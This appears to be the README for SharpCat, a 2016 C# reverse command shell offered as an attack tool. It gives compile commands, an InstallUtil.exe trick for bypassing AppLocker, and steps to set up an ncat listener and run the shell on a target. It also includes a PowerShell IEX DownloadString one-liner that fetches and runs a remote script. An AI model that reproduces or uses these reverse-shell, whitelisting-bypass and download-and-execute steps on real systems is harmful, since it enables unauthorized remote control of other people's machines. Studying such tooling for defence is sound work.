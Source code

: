 ```
  _________.__                        _________         __   
 /   _____/|  |__ _____ _____________ \_   ___ \_____ _/  |_ 
 \_____  \ |  |  \\__  \\_  __ \____ \/    \  \/\__  \\   __\
 /        \|   Y  \/ __ \|  | \/  |_> >     \____/ __ \|  |  
/_______  /|___|  (____  /__|  |   __/ \______  (____  /__|  
        \/      \/     \/      |__|           \/     \/      
                                                        v0.1
```

A Simple Reversed Command Shell which can be started using InstallUtil (Bypassing AppLocker) - by Cn33liz 2016

Compile:

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe  /out:"C:\Utils\SharpCat.exe" /platform:anycpu "C:\Utils\SharpCat.cs"
```

To Bypass Applocker:

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Utils\SharpCat.exe
```

### How to use it:

* Setup a remote TCP Listener (for example ncat -lvp 443) https://nmap.org/ncat/

* Change IP/Port as needed, then Compile and run the SharpCat Executable on your target (or use the above InstallUtil trick).

Within the Remote Command Shell you can run PowerShell commands as follow:
```
C:\>PowerShell "Get-Help Invoke-*"
```
Or
```
C:\>PowerShell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/Empire/master/data/module_source/trollsploit/Get-RickAstley.ps1'); Get-RickAstley" 
```
